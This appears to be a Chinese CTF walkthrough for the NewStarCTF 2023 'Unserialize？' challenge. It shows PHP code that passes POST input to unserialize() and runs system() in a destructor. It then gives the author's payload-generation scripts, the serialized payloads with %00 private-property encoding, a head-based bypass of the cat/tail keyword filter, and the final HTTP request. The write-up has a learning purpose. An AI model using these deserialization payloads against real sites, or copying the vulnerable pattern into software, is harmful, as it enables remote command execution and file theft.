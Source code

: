 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - 面向对象
---
```


# \[NewStarCTF 2023\] Unserialize？

## 前置工作

进入靶机网页，看到如下代码，进行代码审计

```php
<?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?>
```

思路很明确，我们需要利用 PHP 的反序列化漏洞，所以我们需要自己重现这个对象

## 编写对象生成脚本

打开 IDE（我用的是 PhpStorm），输入如下代码，这个代码的作用是帮我们生成一个 `$cmd` 具有有效值的 `evil` 对象，将其序列化（即 `serialize()`）后就会输出对象字符串

```php
<?php
class evil {
    private $cmd="ls ../../../"; // 这个 ls ../../../ 是试出来的

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

$ev = new evil();
echo serialize($ev);
```

运行过后，得到字符串 `O:4:"evil":1:{s:9:" evil cmd";s:12:"ls ../../../";}`

但是这里有一个重要的点，` evil cmd` 中间有两个空格，如果你使用了 PhpStorm，会看到两个方框乱码，实际上，这个位置我们需要填上 `%00`，表示 `$cmd` 是 `evil` 类的 `private` 属性，所以最后我们的字符串应该是 `O:4:"evil":1:{s:9:"%00evil%00cmd";s:12:"ls ../../../";}`

我们向靶机通过 POST `unser` 传入这个字符串

![](https://z1.ax1x.com/2023/10/13/pipp4xI.png)

发现了关键信息 `th1s_1s_fffflllll4444aaaggggg`

## 再次编写生成脚本

这个 `th1s_1s_fffflllll4444aaaggggg` 应该就是文件了，但是题目里面对 `cat|tac|more|tail|base` 都进行了过滤，如果你去百度一下或者问问 ChatGPT，他肯定会告诉你，Linux 里面还能用 `head` 来读取文件，即

```
head ../../../th1s_1s_fffflllll4444aaaggggg
```

于是我们重新编写脚本

```php
<?php
class evil {
    private $cmd="head ../../../th1s_1s_fffflllll4444aaaggggg";

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

$ev = new evil();
echo serialize($ev);
```

生成出来的字符串为 `O:4:"evil":1:{s:9:"%00evil%00cmd";s:43:"head ../../../th1s_1s_fffflllll4444aaaggggg";}`

## 取得 Flag

再次通过 `unser` 传入，即可得到 Flag

最终的 Http 请求如下

```http
POST / HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.60
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

unser=O:4:"evil":1:{s:9:"%00evil%00cmd";s:43:"head ../../../th1s_1s_fffflllll4444aaaggggg";}
```

![](https://z1.ax1x.com/2023/10/13/pippOiQ.png)

最终得到的 Flag 为 `flag{2dafcaae-edd2-4604-a4ba-ce47d7fb5c59}`